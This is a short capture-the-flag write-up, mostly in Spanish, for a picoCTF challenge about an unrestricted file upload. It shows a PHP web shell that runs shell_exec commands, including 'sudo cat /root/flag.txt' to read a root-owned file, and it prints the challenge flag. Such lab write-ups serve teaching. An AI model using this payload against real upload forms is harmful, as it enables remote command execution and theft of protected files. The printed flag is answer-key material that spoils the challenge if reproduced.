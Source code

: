 ## Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:58500/)!
## Solución
Se abre la página web y se aprecia que se pueden subir archivos de cualquier tipo, así que al buscar en internet como ejecutar comandos shell con php se encontró que usando shell_exec() se ejecutan y se devuelve la respuesta de la shell
Siendo así se envió el siguiente archivo php
```
<?php
$output = shell_exec('ls -lia');
echo "<pre>$output</pre>";

$output = shell_exec('sudo ls -lia /root/');
echo "<pre>$output</pre>";

$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
Con el último shell_exec se obtiene el contenido de flag.txt

```
picoCTF{wh47_c4n_u_d0_wPHP_5f894f6c}
```

## Referencias
* https://www.php.net/manual/en/function.shell-exec.php